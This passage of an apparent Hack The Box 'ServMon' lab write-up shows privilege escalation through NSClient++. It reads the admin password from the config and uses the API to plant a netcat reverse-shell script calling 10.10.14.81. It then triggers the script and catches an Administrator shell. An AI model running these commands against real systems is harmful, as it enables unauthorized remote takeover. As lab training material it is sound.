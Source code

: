 Let's search for user flag:
```
nadine@SERVMON C:\Users\Nadine\Desktop>icacls user.txt
user.txt SERVMON\Administrator:(F)
         SERVMON\Nadine:(RX)

Successfully processed 1 files; Failed processing 0 files
```

## Privilege escalation

One thing that we did not investigate is the HTTP server on port 8443, let's
visit it:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/servmon/nsclient.png)

There's an [exploit](https://www.exploit-db.com/exploits/46802) for NSClient++
that leverages on the fact that it's running as Administrator, and we can
schedule scripts execution.

We can read the admin password in `C:\Program Files\NSClient++\nsclient.ini`:
```
; Undocumented key
password = ew2x6SsGTxjRwXOT
```

But we are not allowed to login from any host, because of this line in the
configuration file:
```
; Undocumented key
allowed hosts = 127.0.0.1
```

Luckily there's an [API](https://docs.nsclient.org/api/) that we can use from
the SSH sesssion.

After copying a netcat executable with `scp`, let's add a script to NSClient
with:
```
nadine@SERVMON C:\Users\Nadine>curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/hack.bat --data-binary "C:\Temp\nc.exe 10.10.14.81 1337 -e cmd.exe"
Enter host password for user 'admin':
Added hack as scripts\hack.bat
```

Let's start a netcat listener on our machine and trigger the execution of the
script with:
```
nadine@SERVMON C:\Users\Nadine>curl -s -k -u admin https://localhost:8443/api/v1/queries/hack/commands/execute?time=1m
```

Let's take a look at the listner:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 172.17.0.1.
Ncat: Connection from 172.17.0.1:48222.
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>
```
